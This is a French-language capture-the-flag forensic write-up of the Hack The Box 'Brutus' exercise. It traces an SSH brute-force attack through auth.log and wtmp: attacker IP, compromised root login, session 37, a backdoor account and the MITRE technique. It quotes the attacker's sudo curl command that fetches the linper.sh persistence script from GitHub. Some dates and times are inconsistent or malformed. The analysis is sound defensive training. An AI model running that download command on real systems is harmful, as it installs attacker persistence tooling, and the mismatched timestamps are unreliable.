








# Sherlock: SOC & DFIR Exercice

## Title: Brutus

## Date: 03/10/2025

## Objective:
Le but de cet exercice est d'analyser **Unix auth.log** et **wtmp logs**. Notre serveur **Confluence** est exploité par la technique: **brute-forcing**.
On doit identifier la source d’un accès non autorisé par le groupe et leur techniques pour: **Privilege Escalation**, **Persistence**, **Exécution de Commandes**. En général, on analysera leur actions malveillants.

## Environment / Tools Used:
* HTB Sherlocks: Intro-to-Blue-Team Track
* Linux, auth.log, wtmp, utmpdump, MITTRE ATT&CK

## Investigation Steps:
1. Analyser les informations disponiblees dans Linux System: **auth.log** et **wtmp**.
2. Utiliser **MITTRE ATT&CK** et l'outil: **utmpdump**
3. Faire une connexion entre les activités de l'attaquant.
4. Finaliser ce que nous devons faire pour notre entreprise.

## Findings:
1. On doit trouver l'IP address de l'attaquant:
    - Quand on a analysé la source: `auth.log`, on a trouvé les tentatives plusiers avec l'IP: `65.2.161.68`
    - Le `06-03-2026`, À `06:31:31` heure, ça c'est passé.
    - La raison est que ces tentatives ont généré beaucoup de message d'échec (Failure Messages)
    - Donc, c'est la signé de **l'attaque** de **brute force**
    - Voilà, la preuve:
    

2. Il y a un compte compromis, on doit trouver ça.
    - Quand on a analysé la source: `auth.log`
    - On a trouvé que le compte de l'utilisateur: **root** est exploité: il y a les preuves de message d'échec et le message: `Accepted Password`
    - À `06:32:444` heure, ça c'est passé.
    - Voilà, la preuve:
    

3. On doit trouver la date et le temps quand l'attaquant a fait le premier login après `brute force`
    - On voit que `Accepted Password` était le `06-03-2024` à `06:32:44` dans le fichier `auth.log`
    - Après, on analysé `wtmp` logs par l'outil **utmpdump** et trouvé que à `06:32:45` il y a un login réussi.
        - Commande: `utmpdump wtmp -o time_converted`
    - Voilà, la preuve:
    

4. Maintenant, on doit trouver le **session id** par **SSH** pour l'utilisateur: **root**
    - Quand on a analysé `auth.log` > on a trouvé que l'ID session de SSH est `37`
    - Voilà, la preuve:
    

5. On doit trouver le **nouveau compte** crée par l'attaquant pour préserver **persistence**
    - On continue d'analyser le fichier: `auth.log`
    - On a trouvé que le `06-03-2024` à `06:34:18` heure, le nouvel utilisateur:`cyberjunkie` est crée par l'attaquant
    - Voilà, la preuve pour ça:
    

6. On doit trouver ce que la technique de la tactique: **persistence** utilisé par l'attaquant est marqué dans **MITTRE ATT&CK**. Plus précisement, la technique de creer **nouveau compte**.
    - On a analysé le site Web de MITTRE et a trouvé l'information nécessaire sous le colonne:
        - `Persistence > Create Account > Local Account`: **T1136.001**
    - Voilà, la preuve pour cela:
    

7. On doit trouver quand l'attaquant a fait `logout` de SSH session
    - On connaît l'ID de la séance SSH: **37**, donc, il faut suivre ça.
    - On l'a ça et a obtenu le temps: le `06-03-2024` à `06:37:24`, **la séance 37 de SSH est terminé**.
    - Voilà, la preuve:
    

8. On doit trouver la commande de l'attaquant utilisé pour télécharger **script** en utilisant **sudo**.
    - On continue d'analyser la source: `auth.log`
    - À ce moment, on analysé les activités après `06:37:24` et il faut suivre les activités de **sudo**.
    - On a trouvé cette commande: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
    - Voilà, la preuve:
    

## Key Learning / Takeaway:
1. **auth.log** montre et enregistrie `événement d'authentication: successful/failed logins` et également `l'usage de sudo, les tentatives SSH`
2. **wtmp** montre et enregistre `logins / logouts / reboots` et `c'est qui fait login et quand`
3. Dans Linux OS >> il y a 3 locations:
    - `utmp >> /var/run/utmp` enregistre les utilisateurs actuels.
    - `wtmp >> /var/log/wtmp` >> c'est une histoire de tous les logins et logouts.
    - `btmp >> /var/log/btmp` >> enregistre les login d'échec.

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/631`
